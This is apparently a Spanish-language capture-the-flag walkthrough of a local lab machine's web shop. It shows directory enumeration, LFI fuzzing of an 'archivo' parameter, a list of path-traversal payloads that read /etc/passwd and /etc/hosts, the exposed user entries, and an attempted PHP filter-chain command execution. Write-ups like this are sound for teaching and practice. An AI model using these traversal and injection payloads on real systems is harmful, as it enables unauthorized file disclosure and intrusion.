 Revisando la web tenemos este error visible:
```bash
"Error de Sistema: ($_GET['archivo']");
```

Ahora revisamos si existe algun archivo que este realizando una llamaba bajo el parametro que nos muestra en el error
```bash
gobuster dir -u http://172.17.0.2/shop/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,sh,txt
```

Tenemos un archivo **php**
```bash
/index.php            (Status: 200) [Size: 1112]
```

Ejecutamos el siguiente comando para ver si podemos **fuzzear** rutas en el sistema en caso de que el parametro sea vulnerable:
```bash
wfuzz -c --hw 87,90,92,93 -t 200 -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://172.17.0.2/shop/index.php?archivo=FUZZ"
```

Tenemos todas estas formas de porder leer archivos:
```bash
 "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"         
 "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"                                      
 "../../../../../../../../../../../../../../../../../../../../../etc/passwd"   
 "../../../../../../../../../../../../../../../../etc/passwd"                  
 "../../../../../../../../../../../../../../../../../../../etc/passwd"         
 "../../../../../../../../../../../../../../../../../etc/passwd"               
 "../../../../../../../../../../../../../../../../../../etc/passwd"            
 "../../../../../../../../../../../../../../../etc/passwd"                     
 "../../../../../../../../../../../../../../etc/passwd"                        
 "../../../../../../../../../../../../../etc/passwd"                           
 "../../../../../../../../../../../../../../../../../../../../etc/passwd"      
 "../../../../../../../../../../../../../../../../../../../../../../etc/passwd"
 "../../../../../../etc/passwd"                                                
 "../../../../../../../../../../etc/passwd"                                    
 "../../../../../../../../../../../../etc/passwd"                              
 "../../../../../../etc/passwd&=%3C%3C%3C%3C"                                  
 "../../../../../../../../../../../etc/passwd"                                 
 "../../../../../../../../etc/passwd"                                          
 "../../../../../../../../../etc/passwd"                                       
 "../../../../../../../etc/passwd"                                             
 "../../../../../etc/passwd"                                                   
 "../../../../etc/passwd"                                                      
 "../../../../../../../../../../../../etc/hosts"                               
```
### Credenciales Encontradas
Logramos ver a dos usuarios del sistema:
```bash
seller:x:1000:1000:seller,,,:/home/seller:/bin/bash
manchi:x:1001:1001:manchi,,,:/home/manchi:/bin/bash
```
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Intentando **PHPFileter** no obutivimos nada positivo asi que lo descartamos:
```bash
php_filter_chain_generator.py --chain '<?php system("whoami"); ?>'
```
